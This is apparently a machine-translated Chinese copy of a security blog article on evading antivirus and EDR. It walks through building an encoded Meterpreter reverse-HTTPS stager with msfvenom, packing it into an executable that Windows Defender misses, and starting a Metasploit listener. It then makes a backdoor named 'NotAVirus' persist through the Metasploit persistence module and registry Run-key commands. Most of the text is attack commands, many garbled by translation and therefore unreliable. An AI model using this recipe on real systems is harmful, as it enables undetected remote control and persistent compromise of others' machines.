








# 通过外壳代码注入规避 EDR，并使用注册表运行键获得持久性

> 原文：<https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a?source=collection_archive---------0----------------------->

在内部网络中获得立足点可能具有挑战性，因为 AV 和 Defender 使这变得更加困难。现代 Windows 版本已经采取了一些缓解措施，防止外壳代码正常运行。该问题是由外壳代码需要 RWX 内存这一事实引起的，该内存在执行外壳代码时被标记。

外壳代码注入在 Pentesting 期间可能对 APT 或 Red Teamers 非常有帮助，因为他们会注入恶意 EXE 并将进程迁移到 EDR 信任的 EXE 中。一点可疑的行为都没有！

# 加密 C2 通信

不建议通过未加密的隧道传输数据，最好替换 Metasploit 在生成 stager 时使用的默认 SSL，这样 stager 和 C2 框架之间的通信是加密的。我们可以为 C2 服务器端创建一个私有 RSA 密钥和一个服务器证书。

> OpenSSL req-new-new key RSA:4096-days 365-nodes-x509-key out RSA private . key-out server certificate . CRT



然后将它们合并到一个. pem 文件中，我们就创建了一个串联证书。

> cat RSA private . key server certificate . CRT > my . PEM

# 生成编码外壳代码

使用证书生成 Metasploit stager，并使用 ***shikata_ga_nai*** 进行几乎混淆，以实现多态 XOR 加法反馈编码器。

> MSF venom-p windows/meter preter/reverse _ winhttps LHOST = 192 . 168 . 1 . 46 LPORT = 8888—平台 windows -a x86 HandlerSSLCert=。/my . PEM StagerVerifySSLCert = true-s 42-small-e x86/shikata _ ga _ nai-I 9-f raw | MSF venom-platform windows-a x86-e x86/call 4 _ dword _ xor-I 6-b " \ x00 \ x0a \ x0d "-f raw > shellcode . raw



9 次迭代编码外壳代码

一旦 shellcode 生成成功，我们会将其打包成 EXE。

# 打包外壳代码

有一个开源工具叫做[shecodnjet](https://github.com/TaroballzChen/shecodject)，它可以很好地将我们生成的外壳代码打包成 EXE。使用 python3 作为根用户打开工具:

> sudo python3 shecodnject.py

加载 scc 模块，设置我们之前生成的 shellcode.raw 文件，并运行该模块来读取文件中的 shellcode。

> scc
> 设置 source/set/location/to/shellcode . raw
> 运行



通过键入 **back** 退出模块。现在工具已经读取了外壳代码，我们将把它打包成一个 EXE 文件，因此请逐个输入以下命令:

> exe
> 设置 noconsole False
> 运行

打包的过程需要一段时间。完成后，输出将保存在 shecodeject 文件夹内的/output 中

EXE 生成并准备躲避现代 EDRs 和 Windows Defender。让我们测试它是否被 Windows Defender 检测到:



绕过 Windows Defender

它被绕过，根本没有检测到。现在是时候在 Metasploit 中设置一个监听器了，希望得到一个 shell:

> msfconsole -q -x '使用 exploit/multi/handler；将 ExitOnSession 设置为 false 设置有效负载 windows/meter preter/reverse _ winhttps；设置 LHOST 192 . 168 . 1 . 46；设置 LPORT 8888set handlers slcert/home/nade/Desktop/my . PEM；将 StagerVerifySSLCert 设置为 true 设置 sessioncommunicationtime out 600；运行-j -z '



为了便于统计，这是在各种 AVs 中扫描时的检测率:



# 使用注册表运行键获得持久性

对于持久性，我们将把我们的后门注入到注册表运行键中。幸运的是，Metasploit 有一个针对这种端口利用的模块。该模块需要以下配置，并将可执行文件放在受损系统的可写位置。在这种情况下，我们将上传我们的后门程序，它与我们在目标机器上用来获取(在我们的本地机器上我称它为**fin.exe**)的后台程序是同一个后台程序- > **C:\tmp\fin.exe**

首先，我们上传 fin.exe 在 **C:\tmp**



`use post/windows/manage/persistence_exe
set REXEPATH /home/nade/Desktop/fin.exe
set REXENAME fin.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run`



下次用户登录系统时，将会打开一个新的 Meterpreter 会话(将会弹出一个黑色的 cmd 屏幕，执行后门程序，然后自动关闭)。

# 以手工方式获得持久性

或者，您可以使用这些命令手动添加这 4 个注册表运行键，这样我们的后门**fin.exe**将被注入。在演示中，我添加了一个随机值**not virus**，但是你知道，你不想让它那样。在使用注册表之前，确保在目标系统中上传后门程序(在我的例子中是: **C:\tmp\fin.exe** )。

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"
```